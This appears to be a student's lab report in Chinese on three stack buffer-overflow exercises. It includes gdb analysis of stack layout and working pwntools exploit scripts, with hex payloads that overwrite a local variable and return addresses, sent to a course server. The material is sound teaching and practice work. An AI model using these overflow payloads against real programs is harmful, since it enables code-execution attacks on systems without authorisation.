## Report of Lab1

​																																			3180103650 王睿

### Problem 1: bof-baby

#### 1. 分析

​	首先，我们可以通过阅读源代码（bof-baby.c），判断本问题是需要我们在`hear()`函数内在读入字符串时利用`gets()`函数存在的buffer overflow，将函数内的局部变量`p1`与`p2`的值覆盖成相等的值


#### 2. 实验步骤

1. gdb动态调试

   - 进入`hear()`前

   ​	经过第一步的分析，我们就需要确定要输入什么值，能够覆盖掉`p1`与`p2`。因此，我们采用gdb调试，来寻找对应的地址

   ​	可以看到，在调用`hear()`前，栈帧esp在`0xffffd000`处

   

   而调用call时，会将下一条指令的地址`0x804863c`压入栈中，作为return address

   - 进入`hear()`后

     我们也可以看到栈上$ebp+4处的内容确实为return address

     

     接下来，我们就可以通过pwngdb找到各个局部变量在栈上的地址，其中，数组`str[]`的首地址，与`p2`的地址之间相差50个byte，因此，我们只需要输入50个任意值加上两个相同的字符即可

     

2. 编写exploit.py

   ```python
   from pwn import *
   context.log_level = 'DEBUG'
   
   flag = "00000000000000000000000000000000000000000000000000NN"
   
   conn = remote("47.99.80.189", 10001)
   conn.recvuntil("ID:\n")
   conn.sendline("3180103650")
   
   #conn.recvuntil("characters:\n")
   conn.sendline(flag)
   conn.interactive()
   ```

3. 运行exploit.py

   

#### 3. 实验结果

​	

### Problem 2: bof-boy

#### 1. 分析

​	我们可以通过阅读bof-boy.c源代码，发现这道题需要我们在`func()`函数内读入字符串时利用`read()`函数存在的overflow漏洞，覆盖掉return address，从而在函数结束时跳转到target_code. 同时，因为源代码中通过`strlen()`函数来判断是否越界，我们只需要在输入payload中的前10个字符内加入`\x00`表示字符串终结符即可。



#### 2. 实验步骤

1. 通过gdb调试，因为return address在$ebp +4处，我们可以看到buffer数组的首地址距离return address有22个字节

   

2. 同时，我们可以通过`p &target_code`观察到函数`target_code()`的地址

   

   因此，我们只需要在flag中前22位填充`\x90`，且前十位中有一个`\x00`，后面放上`0x8048576`即可，需要注意的是要符合小段规则，即顺序应为`"\x76\x85\x04\x08"`

3. 编写exploit.py

```python
from pwn import *
context.log_level = 'DEBUG'

payload = "\x90\x00\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x76\x85\x04\x08\x90\x90\x90"

conn = remote("47.99.80.189", 10002)
conn.recvuntil("ID:\n")
conn.sendline("3180103650")

conn.recvuntil("me!")
conn.send(payload)
conn.interactive()
```

4. 运行exploit.py



#### 3. 实验结果



### Problem 3: bof-again

#### 1. 分析

​	与上一个问题相似，通过观察bof-again.c的源代码，我们可以想到需要利用`func()`的`read()`函数，将返回值覆盖；需要注意的是，在这个问题的`target_code()`函数中需要有两个参数，因此我们还需要将参数也通过buffer overflow写入栈中

#### 2. 实验步骤

- 通过gdb调试，我们可以看到`buffer[]`数组的首地址，以及该函数栈帧`$bep`的地址，二者相差28个bytes

  

- 而因为需要跳转到`target_code()`函数，我们可以看到在该函数开头有一段prologue，它push了ebp，也就是将esp的值减了4；同时，也能看到我们需要将栈帧的return address通过overflow设置为`0x08048516`。

  所以我的想法就是利用在target_code的prologue来将ebp设置为esp，而esp在func()函数结束后没有改动，因此就可以在func()函数的栈帧上写入参数，到target_code()中去读

  

- 综上，我的想法就是将覆盖后的栈帧设置如下：

  

- 为此，我们就可以编写我们的脚本代码：

  ```python
  from pwn import *
  context.log_level = 'DEBUG'
  
  payload = "\x90"*32+"\x16\x85\x04\x08"+"\x90"*4+"\xbb\xbb\xaa\xaa\xdd\xdd\xcc\xcc"
  
  conn = remote("47.99.80.189", 10003)
  conn.recvuntil("ID:\n")
  conn.sendline("3180103650")
  
  conn.recvuntil("me!")
  conn.send(payload)
  conn.interactive()
  ```

- 运行脚本代码



#### 3. 实验结果

